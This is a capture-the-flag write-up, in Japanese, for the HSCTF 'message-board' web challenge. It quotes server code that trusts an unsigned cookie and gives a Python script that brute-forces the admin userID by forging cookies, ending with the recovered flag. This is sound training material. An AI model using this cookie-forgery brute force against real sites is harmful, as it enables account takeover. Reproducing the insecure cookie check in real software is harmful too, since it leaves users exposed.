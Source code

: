 # message-board:web:305pts
Your employer, LameCompany, has lots of gossip on its company message board: [message-board.hsc.tf](https://message-board.hsc.tf/). You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.  
Your login credentials: username: `kupatergent` password: `gandal`  
Server code is attached (slightly modified).  
[message-board-master.zip](message-board-master.zip)  

# Solution
アクセスするとログインフォームが表示されるので指定された情報でログインする。  
LameCompany: Message Board  
[site.png](site/site.png)  
「no flag for you」と言われて何も見つけることができない。  
配布されたソースのapp.jsを見てみる。  
```JavaScript
~~~
const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
~~~
```
cookieを確認しており、`username`が`admin`だった場合`userID`を確認してflagを表示しているようだ。  
`admin`はパスワードでログインできないようであり、`userID`は隠蔽されている。  
SSTIよりRCEでapp.jsを読み取ることも試したが、難しそうだ。  
`userID`を総当たりで解析するのはナンセンスだと思ったが以下のbfadmin.pyで試す。  
ちなみにkupatergentのcookieは`userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D`となっていた。  
```python:bfadmin.py
import requests

for i in range(1000):
    print(i)
    start = i
    r = requests.get("https://message-board.hsc.tf/", cookies={"userData": f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22admin%22%7D"})
    if ("flag{" in r.text) or (r.status_code != 200):
        print(r.text)
        break
```
以下のように実行する。  
```bash
$ python bfadmin.py
0
1
2
~~~
766
767
768
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>LameCompany: Message Board</title>
~~~
        <p><strong data-bs-toggle="tooltip" title="has had enough of this bs">Rosa:</strong> Okay, I'm heading out.</p>
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>
    </div>
</div>
~~~
```
flagが得られた。  
`admin`の`userID`は`768`だったようだ。  

## flag{y4m_y4m_c00k13s}